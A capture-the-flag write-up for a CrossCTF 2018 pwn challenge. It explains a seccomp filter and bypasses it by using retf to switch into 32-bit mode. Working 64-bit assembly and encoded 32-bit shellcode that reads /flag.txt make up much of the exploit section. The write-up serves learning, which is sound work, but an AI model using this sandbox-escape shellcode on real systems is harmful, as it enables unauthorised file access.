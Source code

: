 # Impossible Shellcoding - CrossCTF Quals 2018 (pwn)

> The flag is at /flag.txt.
>
> nc ctf.pwn.sg 7123
>
> Creator - jarsp (@jarsp)

## Challenge
Opening this up in radare2, we can get the following pseudocode.
```
prctl(prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0));
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &seccomp_rules, 0, 0);
char* buffer = mmap(0x40404000, 0x1000, 7, 0x32);
read(0, &buffer, 0x100);

// runs the shellcode that was read into the buffer
void (*func)() = buffer;
func();
```

So, this is a shellcoding challenge, except that it is not so straightforward. There are 2 `prctl` calls that are designed to make our life difficult.

The first one prevents us from running the program as other users, by blocking set-user-id and set-group-id functions.

The second one sets up SECCOMP rules, which is a filter to block certain syscalls, based on the syscall number (K in the table below). Using [seccomp-tools](https://github.com/david942j/seccomp-tools), we can get the following table.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x00 0xc000003e  /* no-op */
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x0c 0x00 0x40000000  if (A >= 0x40000000) goto 0016
 0004: 0x15 0x0b 0x00 0x00000002  if (A == open) goto 0016
 0005: 0x15 0x0a 0x00 0x00000101  if (A == openat) goto 0016
 0006: 0x15 0x09 0x00 0x00000055  if (A == creat) goto 0016
 0007: 0x15 0x08 0x00 0x0000003b  if (A == execve) goto 0016
 0008: 0x15 0x07 0x00 0x00000039  if (A == fork) goto 0016
 0009: 0x15 0x06 0x00 0x0000003a  if (A == vfork) goto 0016
 0010: 0x15 0x05 0x00 0x00000142  if (A == execveat) goto 0016
 0011: 0x15 0x04 0x00 0x00000038  if (A == clone) goto 0016
 0012: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0016
 0013: 0x15 0x02 0x00 0x0000009d  if (A == prctl) goto 0016
 0014: 0x15 0x01 0x00 0x0000009e  if (A == arch_prctl) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

### SECCOMP
We see that `execve` and `execveat` are blocked, which means no shell for us. Ok.

As for ORW (open, read, write) capabilities, `open` and `openat` are blocked so we cannot do the typical procedure of `open`ing the file, `read`ing from the file into a buffer, then finally `write`ing the buffer into standard output. Great.

`fork`/`vfork`/`clone` are blocked, so we can't create new processes that are free of these seccomp restrictions.

There was a [writeup](https://github.com/yvrctf/2015/tree/master/babyplaypenfence) on a similar challenge, which uses the [x32 ABI](https://en.wikipedia.org/wiki/X32_ABI). How this works is we can syscall `0x40000000 + syscall_num_you_actually_want` to call the syscall and bypass seccomp, due to the x32 ABI of kernels. Sadly at line 0x003, any syscall greater than 0x40000000 is also blocked.

So far, the major problem is that open() and its variants can't be used, however `read`/`write` are still available so we do not need to worry about that.
There is another syscall called `open_by_handle_at` that I wanted to use, but for it to work the binary had to be root (I wasted 5 hours on this).

### retf
However, there is still one more trick - executing 32-bit code instead. 

In 32-bit code, we can use 32-bit syscalls (which have different syscall numbers) to bypass the seccomp filter, as the seccomp filter only blocks the syscall based on its number.

To run 32-bit code from 64-bit code, we can use the `retf` instruction which pops 2 values from the stack, the first being the next instruction address and the second being the new value of the CS (Code Segment) register. 

If the CS register becomes 0x33, it is executing 64-bit code, whereas if the CS register becomes 0x23, it is executing 32-bit code.

One important thing to take note is, since 32-bit code can only read the lower 32-bits from 64-bit registers, we have to make sure we reset the registers the shellcode uses to lower values (including the instruction pointer register!).

## Exploit
The exploit consists of two parts, firstly, 64-bit shellcode that does the following:
1) `mmap` with low addresses with RWX (read-write-exec) permissions
2) Read in 32-bit shellcode that opens the file and reads it
	a) uses the `mmap`ed memory because the orginal binary only reads in 256 bytes - not enough!
3) `retf` to the mmap'ed memory to run the 32-bit shellcode

```
mmap = '''
xor rax, rax
mov al, 9
mov rdi, 0x602000
mov rsi, 0x1000
mov rdx, 7
mov r10, 0x32
mov r8, 0xffffffff
mov r9, 0
syscall'''

read = '''
mov rax, 0
xor rdi, rdi
mov rsi, 0x602190
mov rdx, 100
syscall'''

retf = '''
xor rsp, rsp
mov esp, 0x602160
mov DWORD PTR [esp+4], 0x23
mov DWORD PTR [esp], 0x602190
retf
'''

sc = mmap + read + retf
f = asm(sc)

p.sendline(f)
```

The second step is just to send in 32-bit shellcode to read the flag.

```
# Send 32-bit shellcode that open-reads the flag and writes to stdout
# Copied from http://shell-storm.org/shellcode/files/shellcode-73.php
p.sendline("\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+
		   "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+
		   "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+
		   "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+
		   "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+
		   "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+
		   "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+
		   "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+
		   "\xff"+
		   "/flag.txt\x00")
```


Finally, `print(p.recv())` to get the flag.